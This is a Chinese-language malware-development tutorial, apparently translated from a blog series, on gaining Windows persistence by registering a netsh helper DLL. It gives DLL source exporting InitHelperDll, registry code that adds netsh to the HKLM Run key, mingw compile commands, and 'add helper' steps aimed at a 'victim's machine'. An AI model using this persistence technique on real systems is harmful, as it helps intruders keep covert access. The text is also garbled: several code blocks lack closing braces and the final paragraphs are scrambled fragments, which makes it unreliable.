\newpage
\subsection{恶意软件开发：持久化（第 6 部分）——Windows netsh 辅助 DLL（简单的 C++ 示例）}

{width="80%"}

这一节是关于 Windows 恶意软件持久化技术与技巧系列文章的下一部分。

今天我将写关于自我研究另一个持久化技巧的结果：Netsh Helper DLL。

### netsh

Netsh 是一个 Windows 实用工具，管理员可以用它来修改基于主机的 Windows 防火墙，并执行网络配置任务。

这一能力使得红队能够加载任意 DLL 来实现代码执行，从而借助这个工具实现持久化。

### 实战示例

我们来考虑一个实战示例。

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

编译它：

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

然后把它传送到目标受害者的机器上。

Netsh 通过动态链接库（DLL）文件与操作系统的其他组件交互。

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

{width="80%"}

每个 netsh 辅助 DLL 都提供了一整套全面的功能。

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

{width="80%"}

{width="80%"}

Netsh 的功能可以通过 DLL 文件来扩展：

然后，可以使用 `add helper` 把该 DLL 注册到 netsh 实用工具中：

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"hack", 
  0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
  RegCloseKey(hkey);
  }
  return 0;

```

主机上的持久化是通过创建一个注册表项来实现的，该注册表项会在 Windows 启动期间执行应用程序。

检查注册表 Run 项：

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

{width="80%"}

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

并在受害者的机器上运行：

```powershell
.\pers.exe
```

{width="80%"}

当执行 `add helper` 命令加载 DLL 文件时，会创建以下注册表项：

{width="80%"}

PoC 的逻辑需要更新，改为创建一个新线程，这样在载荷运行期间 netsh 仍然可以使用。

创建新的 DLL（`evil2.cpp`）：

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;

```

编译：

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

{width="80%"}

并再次执行这些步骤：

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

{width="80%"}

如你所见，一切正常，netsh 仍然可以使用。

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

{width="80%"}

我们还可以检查注册表项是否正确：

由于这种攻击基于对系统特性的利用，因此很难用预防性控制措施来缓解。

通过使用 DLL 文件，可以扩展 Netsh 的功能。

不过，实施这个技巧需要本地管理员权限。

首先，创建恶意 DLL：

一切运行得完美无缺！

然而，netsh 默认并不会自动启动。

这可以立即用下面的脚本完成：

如你所见，它与我那篇关于通过注册表 Run 项实现持久化的文章中的脚本很相似。

但有一个注意事项。

不过，当 netsh 结束时，你的恶意逻辑也随之结束。

那么，我们来试试。

netsh

MITRE ATT&CK: Netsh Helper DLL
